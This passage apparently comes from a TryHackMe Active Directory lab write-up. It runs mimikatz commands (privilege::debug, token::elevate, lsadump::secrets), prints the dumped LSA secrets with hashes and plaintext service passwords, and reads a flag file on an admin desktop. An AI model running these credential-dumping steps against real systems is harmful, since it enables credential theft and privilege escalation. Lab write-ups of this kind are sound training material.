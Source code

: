 Now we can proceed with opening up mimikatz:

```
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

Inside of mimikatz, we need to do:

```
privilege::debug
token::elevate
lsadump::secrets
```

We will get this:

```
Domain : THMWRK1
SysKey : a1403e57976b472bce5f231922ca3942

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 )
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db
old/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
    NTLM:4207d1b7e4b942da2371174b772fdf5e
    SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db

Secret  : DefaultPassword
old/text: vagrant

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 b6 54 c4 83 d9 88 10 f6 ee ae fc b7 ed 2d a2 d6 47 11 3f 8f 4a 6d 7f 72 35 b8 a2 93 3d 5c 5e 3f 03 8d 79 49 90 e7 2e e0
    full: b654c483d98810f6eeaefcb7ed2da2d647113f8f4a6d7f7235b8a2933d5c5e3f038d794990e72ee0
    m/u : b654c483d98810f6eeaefcb7ed2da2d647113f8f / 4a6d7f7235b8a2933d5c5e3f038d794990e72ee0
old/hex : 01 00 00 00 10 4d a3 82 e2 da 30 1f 33 d6 49 a4 c9 81 26 e5 25 59 bb 9f 8a 76 b1 5d 59 c6 87 c6 32 b7 02 0b c1 5b 24 f4 44 d0 74 31
    full: 104da382e2da301f33d649a4c98126e52559bb9f8a76b15d59c687c632b7020bc15b24f444d07431
    m/u : 104da382e2da301f33d649a4c98126e52559bb9f / 8a76b15d59c687c632b7020bc15b24f444d07431

Secret  : NL$KM
cur/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99
 ff 97 ec 7f 49 a1 79 15 d9 a0 04 ac 58
old/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99
 ff 97 ec 7f 49 a1 79 15 d9 a0 04 ac 58

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt